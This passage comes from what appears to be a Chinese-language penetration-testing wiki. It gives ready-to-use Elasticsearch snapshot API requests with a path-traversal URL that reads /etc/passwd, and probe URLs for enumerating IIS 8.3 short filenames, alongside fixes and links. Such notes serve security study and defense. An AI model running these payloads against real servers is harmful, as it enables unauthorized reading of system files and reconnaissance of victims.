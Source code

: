     {
        "type": "fs",
        "settings": {
            "location": "/usr/share/elasticsearch/repo/test"
        }
    }
    ```

    创建一个快照
    ```
    PUT /_snapshot/test2 HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 108

    {
        "type": "fs",
        "settings": {
            "location": "/usr/share/elasticsearch/repo/test/snapshot-backdata"
        }
    }
    ```

    目录穿越读取任意文件

    `http://your-ip:9200/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd`

    在错误信息中包含文件内容 (编码后) ,对其进行解码即可获得文件

---

## IIS

**IIS shortname**
- 简介

    windows 在创建一个新文件时,操作系统还会生成 8.3 格式的兼容 MS-DOS 的(短)文件名,以允许基于 MS-DOS 或16位 windows 的程序访问这些文件.

- 修复方案
    1. 升级 .net framework 至 4.0 版本或以上
    2. 修改 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\FileSystem
    值 NtfsDisable8dot3NameCreation 为 1

- 文章
    - [IIS短文件名漏洞](http://www.lonelyor.org/lonelyorWiki/15446866501207.html)
    - [IIS短文件名泄露漏洞修复](https://segmentfault.com/a/1190000006225568)
    - [IIS短文件/文件夹漏洞(汇总整理) ](https://www.freebuf.com/articles/4908.html)

- POC | Payload | exp
    ```bash
    1. http://www.xxx.com/*~1*/.aspx
    2. http://www.xxx.com/l1j1e*~1*/.aspx
    # 若1返回404而2返回400,则可以判断目标站点存在漏洞.
    http://www.xxx.com/a*~1*/.aspx
    # 若存在将返回404,不存在则返回400.以此类推,不断向下猜解所有的6个字符.
    ```
    ```
    Windows Server 2008 R2
    查询是否开启短文件名功能:fsutil 8dot3name query
    关闭该功能:fsutil 8dot3name set 1
